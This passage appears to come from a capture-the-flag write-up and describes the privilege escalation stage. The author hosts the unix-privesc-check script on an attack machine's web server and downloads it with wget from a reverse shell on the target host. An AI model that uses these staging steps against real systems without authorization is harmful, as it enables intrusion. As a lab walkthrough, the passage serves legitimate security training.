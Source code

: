         <img class="img-fluid rounded z-depth-1" src="13-updated-shell.png">
    </div>
</div>

<br/>

### Privilege Escalation


The final step in this CTF was to escalate my user privilege to root. My first attempt was to run my favorite automated priv escalation script, also courtesy of the <a href="https://www.google.com/url?sa=t&amp;rct=j&amp;q=&amp;esrc=s&amp;source=web&amp;cd=1&amp;cad=rja&amp;uact=8&amp;ved=2ahUKEwikheDpypDlAhWhnOAKHTdMBVEQFjAAegQIBRAB&amp;url=http%3A%2F%2Fpentestmonkey.net%2Ftools%2Faudit%2Funix-privesc-check&amp;usg=AOvVaw0zKEIT3uLrcBFLsG1oZ63j">pentestmonkeys</a>. To get this script on the target, I uploaded it to my local attack machine webserver with the following command. 


```bash
$ cp unix-privesc-check /var/www/html
```

I started the apache2 web service with the following. 

```bash
$ service apache2 start
```

Then, I used wget in the target reverse shell to download the script to the target machine. 

```bash
$ wget http://192.168.8.128/unix-privesc-check
```
